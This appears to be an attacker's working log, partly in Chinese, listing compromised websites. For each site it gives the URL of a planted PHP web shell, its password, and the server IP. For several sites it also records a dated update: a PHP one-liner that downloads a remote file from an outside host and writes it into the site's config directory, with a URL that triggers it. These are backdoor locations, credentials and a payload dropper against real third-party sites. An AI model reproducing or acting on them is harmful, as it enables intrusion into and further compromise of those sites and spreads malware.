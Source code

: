 http://by.yanchengquan.com/template/template_init.php |mmk123 |提取 | 182.16.47.67 | 连接不上
https://www.whdryer.com/template/index_bk.php ->big |wso |  218.247.87.158
https://www.tongcheng99.cn/10249_10245/m1.php? |mmk123 |_/www/wwwroot/course/dist/  i-> hhgedu.cn | 8.140.244.215 | 没看懂
https://www.tongcheng99.cn/10249_10245/m1.php |mmk123 |  8.140.244.215
https://hnsjtjsxh.cn/static/upload/excel/m1.php |mmk123 |  8.140.244.215

https://www.taiyangnengludengweixiu.com/uploads/20230227/m1.php |mmk123 |  8.140.244.215 | 连接不上

http://zhicheng.suomaikeji.com/template/web/order/m1.php |mmk123 |  8.140.244.215
代码更新：0608 ✅
http://zhicheng.suomaikeji.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://zhicheng.suomaikeji.com/config/httpd.php?d=up

https://hnsjtjsxh.cn/static/backup/upgrade/m1.php |mmk123 |  8.140.244.215 | 404
https://alfw.suomaikeji.com/template/template_init.php |mmk123 |  8.140.244.215

http://reshihuoke.cn/template/default/html/comm/m1.php |mmk123 |  124.221.145.227
代码更新：0608 ✅
http://reshihuoke.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://reshihuoke.cn/config/httpd.php?d=up

http://360ai.cc/wp-content/languages/themes/m1.php |mmk123 |  124.221.145.227
https://www1.reshihuoke.cn/template/template_init.php |mmk123 |  124.221.145.227
代码更新：0608 ✅
https://www1.reshihuoke.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www1.reshihuoke.cn/config/httpd.php?d=up

https://xqu.ruantu.fun/template/default/simple.php |mmk123 |  47.121.31.234
代码更新：0608 ✅
https://xqu.ruantu.fun/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://xqu.ruantu.fun/config/httpd.php?d=up

https://www.crystunion.com/template/default/simple.php |mmk123 |  47.105.45.80
代码更新：0608 ✅
https://www.crystunion.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.crystunion.com/config/httpd.php?d=up

https://introduce.crword.shop/index_bk.php |mmk123 |  124.222.235.221
代码更新：0608 ✅
https://introduce.crword.shop/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://introduce.crword.shop/config/httpd.php?d=up
